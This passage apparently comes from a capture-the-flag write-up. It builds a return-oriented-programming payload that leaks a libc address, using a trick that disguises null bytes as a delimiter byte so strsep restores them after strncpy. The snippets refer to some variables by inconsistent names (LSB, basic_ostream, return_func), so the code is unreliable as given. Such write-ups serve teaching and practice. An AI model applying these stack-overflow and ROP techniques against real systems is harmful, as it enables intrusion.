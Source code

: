```
	print(hex(data))
	if hex(data)[-2:]!='f0':
		p.close()
		continue
	p.interactive()
```

Run it:

![bruteforce.png](images/bruteforce.png)

That's great! Now we will need some gadgets to leak address as following:
```
pop_rdi_ret = 0x000000000040149b				# ROPgadget
pop_rsi_r15_ret = 0x0000000000401499				# ROPgadget
cout = 0x0000000000404020					# readelf -r
strsep_got = 0x0000000000403f98					# readelf -r
basic_ostream_plt = 0x0000000000401080				# gdb
return_addr = 0x000000000040133c				# gdb
```
But as we know strncpy() will end at null byte. So how can we input those null byte to stack via strncpy()? The answer is we will not put those null byte to payload, we will change those null byte to another byte (ex: 0xaf), then we input 0xaf to delimiter and it will be converted to null byte later in strsep().

Another example:
```
pop_rdi_ret = 0x000000000040149b			# Origin
inp_str = p64(0xf0f0f0f0f040149b)			# This one will be put in payload
delim = p8(0xf0)											# Will overwrite 0xf0 to 0x00
```

Having found offset after LSB of rbp change to 0x00, we have the following first inp_str and delim with `LSB1=0xf0` (as LSB of rbp):
```
LSB1 = 0xf0
inp_str1 = b'A'*(1024 - LSB + 0x20)			# Calculate pad for payload
inp_str1 += b'BBBBBBBB'					# Fake rbp
inp_str1 += p64(pop_rdi_ret)				# rdi
inp_str1 += p64(cout)					# rdi
inp_str1 += p64(pop_rsi_r15_ret)			# rsi
inp_str1 += p64(strsep_got)				# rsi
inp_str1 += b'15151515'					# Fake r15
inp_str1 += p64(basic_ostream)				# Run cout
inp_str1 += p64(return_func)				# Return function
inp_str1 = inp_str1.ljust(1024, b'P')			# Pad to 1024 bytes
inp_str1 = inp_str1.replace(b'\x00', p8(LSB1))		# Change null byte to delim byte

delim1 = p8(LSB1)
```